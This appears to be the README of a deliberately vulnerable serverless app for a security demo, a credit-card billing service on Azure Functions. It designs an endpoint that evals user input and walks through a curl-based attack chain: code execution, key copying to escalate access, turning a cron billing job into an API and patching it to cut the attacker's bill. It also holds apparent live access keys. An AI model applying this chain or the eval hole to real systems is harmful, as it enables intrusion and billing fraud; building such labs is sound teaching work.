 Setup notes

- After deploying the .js files and package.json file, you'll need to go into the scm console <appname.scm.azurewebsites.net/DebugConsole>, go into the home/site/wwwroot/<functionName> directory and run `npm install`.

- Sometimes calls to the API just seem to fail.  Can't reproduce locally.  Not sure, just try again.

-----------------------------------
Concept

Layout for the vulnerable app.

Maybe delivered with serverless?

Concept:
* This is a webapp to consolidate credit card payments.  
* Payments aggregate over the month, and at the end of the month a scheduled function sends a single bill out, thus avoiding additional credit card fees.

Endpoints / functions:
* Check my balance:
  * API endpoint
  * In:
    * The 'semi-public' key for the function
    * Their card number in json format {cardNumber: <cardnum>} which is eval'd
  * Returns: dates and amounts of purchases
  * This is the vulnerable endpoint
* Check what will be paid at the end of the month:
  * API endpoint
  * Requires master (or 'more secret') key to use
  * Returns dict of card #s to payments processed
* Billing function:
  * Cron for once monthly
  * Per customer, sums costs and then sends the bill out
  * Marks as billed? (allowing spoofing)
* API endpoint for writing charges? (not implemented yet, maybe unneccesary)
  * Change code to not accept your credit card -- IF mutation is possible

Exploitation path:
* Discover arbitrary code execution in initial API endpoint:
  * Since path is read-only, we're not too worried about breaking things
  * exploit is.. not sure
  * Information gained:
    * Master key / secure key
    * List of other functions (we didn't know about the other ones)
    * General access
* Dump sources of other functions as wanted
* Take key
  * Use to trigger the general 'card info' function
* Modify billing function:
  * Change it from cron to API
  * Trigger billing at arbitrary times
* Change source of 'charge writing' API to not accept my card (or someone else's?) (if fn exists)

SQL schema:
* Cards: ID, card#, API key
* Purchases: ID, CardID, Time, $amount

----------------------------

Routes: (plug the relevant keys in for your own? functions app)

vuln_api: takes your credit card #, returns just your charges.
curl -X POST -d @benign.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/PublicVuln?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: [{"amount":24.99,"date":"2017-06-15T00:00:00Z"},{"amount":5.99,"date":"2017-06-17T00:00:00Z"}]

totalView: Doesn't take any arguments.  Returns the list of all charges.
curl -X POST -d '{}' -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/TotalView?code=NKsfko79s6xRHgi838kqeoycX6Jk7gaALAY0Gwdb65afCETnY02pXA==
example: [{"card_id":1,"amount":24.99,"date":"2017-06-15T00:00:00Z"},{"card_id":1,"amount":5.99,"date":"2017-06-17T00:00:00Z"},{"card_id":2,"amount":8,"date":"2017-06-16T00:00:00Z"},{"card_id":2,"amount":29,"date":"2017-06-18T00:00:00Z"},{"card_id":2,"amount":0.99,"date":"2017-06-18T00:00:00Z"}]

billing: Sums up the cards to do the billing.  Can't be triggered via API, is triggered via cron.

Vulns:
curl -X POST -d @print_return.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/PublicVuln?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: "hax!"

List available functions with secret sets via list_functions:
curl -X POST -d @list_functions.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/PublicVuln?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: ["billing.json","host.json","httptriggerjs2.json","manualtriggerjs1.json","publicvuln.json","timertriggerjs1.json","totalview.json","totalview.json.bkup","totalview.json.orig"]

Try to run totalview:
curl -X POST -d '{}' -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/TotalView?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: this doesn't work because we don't have the key!

Change permissions on totalview: (they keys on disk are encrypted, but they're all encrypted against the same key, so we can just copy in our known working one!)
curl -X POST -d @change_totalview_perms.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/PublicVuln?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: "done"

After changing perms, run totalView again:
curl -X POST -d '{}' -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/TotalView?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: [{"card_id":1,"amount":24.99,"date":"2017-06-15T00:00:00Z"},{"card_id":1,"amount":5.99,"date":"2017-06-17T00:00:00Z"},{"card_id":2,"amount":8,"date":"2017-06-16T00:00:00Z"},{"card_id":2,"amount":29,"date":"2017-06-18T00:00:00Z"},{"card_id":2,"amount":0.99,"date":"2017-06-18T00:00:00Z"}]

Now what's Billing - let's read its function metadata:
curl -X POST -d @read_billing_info.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/PublicVuln?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: "{\r\n  \"bindings\": [\r\n    {\r\n      \"name\": \"myTimer\",\r\n      \"type\": \"timerTrigger\",\r\n      \"direction\": \"in\",\r\n      \"schedule\": \"0 0 0 1 * *\"\r\n    }\r\n  ],\r\n  \"disabled\": false\r\n}"

We can't call it by API since it's a cron job.  Let's change it to being API-able:
curl -X POST -d @change_billing_to_api.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/PublicVuln?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==

Now change the permissions to use our known key like above:
curl -X POST -d @change_billing_perms.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/PublicVuln?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==

Now we can query it via API:
curl -X POST -d @benign.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/Billing?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: [{"1234-5678-9012-3456":30.98},{"0000-0000-0000-0000":37.99}]

But we don't want to be billed, right?  Let's see how billing works by dumping the source:
curl -X POST -d @read_billing_source.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/PublicVuln?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: <bunch of js source>

Now let's put in something for our card:
curl -X POST -d @patch_billing_code.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/PublicVuln?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: "done"

And when we query billing again:
curl -X POST -d @benign.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/Billing?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: {"1234-5678-9012-3456":1,"0000-0000-0000-0000":37.99}


TODO:

- make it cooler by making vuln_api use an sql user that doesn't have creds to just do the further queries by itself (so we have to gain access to totalView)
